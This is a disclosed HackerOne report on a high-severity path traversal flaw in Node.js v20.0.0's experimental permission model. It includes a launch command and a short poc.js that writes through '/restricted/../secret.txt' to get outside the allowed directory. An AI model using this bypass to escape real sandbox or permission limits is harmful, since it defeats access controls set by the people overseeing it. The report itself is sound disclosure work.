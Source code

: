 # Filesystem experimental permissions policy does not handle path traversal cases.

## Report Details
- **Report ID**: 1952978
- **URL**: https://hackerone.com/reports/1952978
- **State**: Closed
- **Severity**: high
- **Submitted**: 2023-04-18T18:34:13.285Z
- **Disclosed**: 2023-07-20T20:57:35.392Z

## Reporter
- **Username**: haxatron1
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs

## Vulnerability Information
Consider the following command on Node v20.0.0:
```
node --experimental-permission --allow-fs-read=* --allow-fs-write=/home/kali/restricted/ poc.js
```
This command is intended to restrict write access to only files present in the directory /home/kali/restricted

However if we have the following poc.js:
```
const fs = module.require('fs')
fs.writeFileSync("/home/kali/restricted/../secret.txt", "Target Overwritten!")
```
This apparently matches the directory /home/kali/restricted/ directory check and then writes to /home/kali/secret.txt (by using ../), which is not intended, bypassing the experimental permission policy for files.

## Impact

Path traversal when checking experimental file permission policy

## Attachments
No attachments

